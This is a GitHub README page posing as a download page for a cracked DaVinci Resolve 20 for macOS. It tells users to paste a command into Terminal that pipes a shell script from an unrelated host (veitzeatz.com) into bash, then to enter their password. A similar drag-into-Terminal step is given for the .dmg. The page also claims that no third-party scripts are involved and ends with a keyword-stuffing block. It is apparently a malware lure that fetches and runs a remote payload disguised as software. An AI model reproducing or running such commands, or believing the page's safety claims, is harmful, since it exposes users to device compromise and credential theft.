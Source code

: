 <p align="center">
  <img src="https://rsload.net/images6/DaVinci_Resolve_Studio%20crack.jpg" width="120"/>
</p>

<h1 align="center">🎬 DaVinci Resolve 20 for macOS</h1>

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/99">
    <img src="https://img.shields.io/badge/⬇️%20Download-DaVinci_Resolve_20-green?style=for-the-badge&logo=apple&logoColor=white"/>
  </a>
</p>

---

> Powerful all-in-one solution for professional editing, advanced color correction, audio post, and visual effects – now available with a manual setup for macOS.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---
📌 About DaVinci Resolve for macOS
DaVinci Resolve for Mac is a professional-grade video editing and color correction software widely used by filmmakers, video editors, and colorists around the world. Combining advanced editing, visual effects, motion graphics, color grading, and audio post-production in one comprehensive application, it offers an all-in-one solution tailored for high-end video production workflows.

Optimized for macOS and Apple Silicon chips (M1, M2, M3), DaVinci Resolve delivers exceptional performance and real-time processing power, even when working with ultra-high-resolution footage. Its intuitive interface supports both beginners and professionals with flexible editing timelines, powerful color grading panels, and Fusion visual effects compositing.

Whether you are creating feature films, commercials, YouTube content, or documentaries, DaVinci Resolve equips you with industry-standard tools to produce cinematic-quality video projects on your Mac.

---

## 📌 Key Features

- 🎞️ Advanced multi-track timeline editing
- 🎨 Hollywood-grade color grading tools
- 🔊 Fairlight audio suite with ADR and 3D sound
- 🧩 Fusion VFX and motion graphics
- 📁 Supports Blackmagic RAW and ProRes workflows
- 👥 Collaborative features for studio teams

---

## 💡 System Compatibility

| OS          | Supported        |
|-------------|------------------|
| macOS 12+   | ✅               |
| macOS 11    | ⚠️ Limited       |

---

## 🖼️ Visual Preview

<p align="center">
  <img src="https://images.blackmagicdesign.com/images/media/releases/2020/20201113_davinci-resolve-17-1/carousel/3-davinci-resolve-17-1.jpg?_v=1605237879" width="720"/>
  <br/>
  <img src="https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/10/f6/ba/10f6ba55-0d57-d9a0-3df4-b429b7edbf00/DaVinciResolve20_AppStore_Color.png/643x0w.jpg" width="720"/>
</p>

---

## 📢 Important Notes

- No external tools or third-party scripts involved  
- This setup does not modify system files  
- Compatible with Apple Silicon and Intel Macs  
- Keep the archive for future reinstalls

---

## 🔍 SEO Keywords

DaVinci Resolve, DaVinci Resolve Mac, DaVinci Resolve for Mac, DaVinci Resolve Mac download, download DaVinci Resolve for Mac, DaVinci Resolve macOS app, DaVinci Resolve MacBook, DaVinci Resolve MacBook Pro, DaVinci Resolve MacBook Air, DaVinci Resolve M1 Mac, DaVinci Resolve M2 Mac, DaVinci Resolve M3 Mac, DaVinci Resolve Apple Silicon, DaVinci Resolve Intel Mac, DaVinci Resolve dmg Mac, DaVinci Resolve direct download Mac, DaVinci Resolve .dmg file Mac, install DaVinci Resolve Mac, get DaVinci Resolve on Mac, DaVinci Resolve video editor Mac, DaVinci Resolve color grading Mac, DaVinci Resolve editing software Mac, DaVinci Resolve post production Mac, DaVinci Resolve 4K Mac, DaVinci Resolve Fusion Mac, DaVinci Resolve audio post Mac, DaVinci Resolve timeline Mac, DaVinci Resolve professional Mac, DaVinci Resolve media Mac


